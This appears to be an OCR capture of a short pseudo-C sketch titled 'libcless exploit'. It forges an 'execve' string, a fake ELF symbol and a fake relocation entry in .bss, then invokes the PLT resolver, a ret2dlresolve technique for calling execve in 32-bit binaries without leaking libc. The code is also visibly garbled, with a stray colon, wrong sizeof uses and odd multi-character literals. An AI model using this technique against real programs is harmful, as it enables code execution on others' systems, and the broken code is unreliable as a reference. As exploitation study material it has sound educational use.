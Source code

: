 libcless exploit
================

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';  
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));
